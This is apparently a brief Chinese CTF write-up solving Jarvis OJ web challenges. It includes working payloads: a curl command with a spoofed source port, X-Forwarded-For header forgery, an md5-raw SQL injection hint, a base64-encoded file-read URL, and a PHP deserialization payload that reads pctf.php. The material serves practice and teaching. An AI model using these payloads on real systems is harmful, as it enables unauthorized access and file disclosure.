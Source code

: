 ## PORT51
要求使用端口51访问，之前一直以为是header伪造，到处找包含port的header，最后才知道是通过curl命令指定客户端port访问
`curl --local-port 51 http://web.jarvisoj.com:32770/`
## LOCALHOST
修改header X-Forwarded-For
## Login
查看response headers
`Hint: "select * from `admin` where password='".md5($pass,true)."'"`
这里要注入，就要从md5函数中逃逸
https://blog.werner.wiki/php-md5-true-sqli/
这个还是比较神奇的，竟然能找到这样两个字符串
## 神盾局的秘密
读index.php源码`view-source:http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw`
反序列化后，读取文件
payload:view-source:http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}

